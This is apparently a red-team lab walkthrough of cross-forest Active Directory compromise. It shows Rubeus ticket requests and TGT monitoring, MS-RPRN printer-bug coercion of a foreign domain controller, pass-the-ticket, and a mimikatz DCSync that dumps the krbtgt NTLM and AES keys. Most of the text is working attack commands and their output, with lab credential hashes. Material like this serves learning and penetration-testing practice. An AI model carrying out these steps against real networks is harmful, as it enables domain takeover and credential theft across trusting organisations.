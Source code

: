 # 4. Abusing KUD Permissions of `US-DC` or `US-WEB` while Coercing the `USVENDOR-DC` to Authenticate to either of them
- By applying the MS-RPRN abuse, administrators from one forest can compromise resources in a forest that it shares a two-way inter-forest trust with.
- This essentially means that if an organization has a two-way forest trust (possibly ‘external’ trusts as well) with another Active Directory forest, and if an attacker can compromise a single machine with unconstrained delegation (e.g. a domain controller) in that foreign forest, then they can leverage this to compromise other forests and every domains within them.
- The research behind this attack can be found at [Not A Security Boundary - Breaking Forest Trusts](https://blog.harmj0y.net/redteaming/not-a-security-boundary-breaking-forest-trusts/).
- We need to start monitoring for incoming TGTs from the target machine account o our target domain, `usvendor-dc$` on a server that has KUD privileges.
- We will do it on `US-DC` but this can also be done in `US-WEB` or `TECHCORP-DC`. First we need to impersonate `us\Administrator`.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:Administrator /rc4:43B70D2D979805F419E02882997F8F3F /domain:us.techcorp.local /dc:us-dc.us.techcorp.local /ptt

<snip>
```
- We will now start monitoring for TGTs from `usvendor-dc$` using **Rubeus** on `US-DC`.
```powershell
PS C:\Windows\Tasks> .\Rubeus.exe monitor /interval:5 /targetuser:usvendor-dc$ /nowrap
.\Rubeus.exe monitor /interval:5 /targetuser:usvendor-dc$ /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0

[*] Action: TGT Monitoring
[*] Target user     : usvendor-dc$
[*] Monitoring every 5 seconds for new TGTs
```
- We can now coerce `USVENDOR-DC` to authenticate to `US-DC`, even as a low-privileged user of `us.techcorp.local`, because of the Bidirectional Forest Trust.
```powershell
PS C:\Auditor> .\MS-RPRN.exe \\usvendor-dc.usvendor.local \\us-dc.us.techcorp.local
Target server attempted authentication and got an access denied.  If coercing authentication to an NTLM challenge-response capture tool(e.g. responder/inveigh/MSF SMB capture), this is expected and indicates the coerced authentication worked.
```
- We have captured the incoming TGT.
```powershell
[*] 12/10/2023 4:00:58 PM UTC - Found new TGT:

  User                  :  USVENDOR-DC$@USVENDOR.LOCAL
  StartTime             :  12/10/2023 6:40:06 AM
  EndTime               :  12/10/2023 4:40:06 PM
  RenewTill             :  12/16/2023 9:06:42 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIF7jCC...
```
- We can now use this TGT to impersonate `usvendor-dc$` and execute a DCSync attack against `USVENDOR-DC`.
```powershell
PS C:\Auditor> .\Rubeus.exe ptt /ticket:doIF7jC...

PS C:\Auditor> .\mimikatz.exe

<snip>

mimikatz # lsadump::dcsync /user:usvendor\krbtgt /domain:usvendor.local /dc:usvendor-dc.usvendor.local
[DC] 'usvendor.local' will be the domain
[DC] 'usvendor-dc.usvendor.local' will be the DC server
[DC] 'usvendor\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/12/2019 9:09:18 PM
Object Security ID   : S-1-5-21-2028025102-2511683425-2951839092-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 335caf1a29240a5dd318f79b6deaf03f
    ntlm- 0: 335caf1a29240a5dd318f79b6deaf03f
    lm  - 0: f3e8466294404a3eef79097e975bda3b

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 11d7fc894b21e11d24a81c7870eb8aae

* Primary:Kerberos-Newer-Keys *
    Default Salt : USVENDOR.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 2b0b8bf77286337369f38d1d72d3705fda18496989ab1133b401821684127a79
      aes128_hmac       (4096) : 71995c47735a10ea4a107bfe2bf38cb6
      des_cbc_md5       (4096) : 982c3125f116b901

<snip>
```
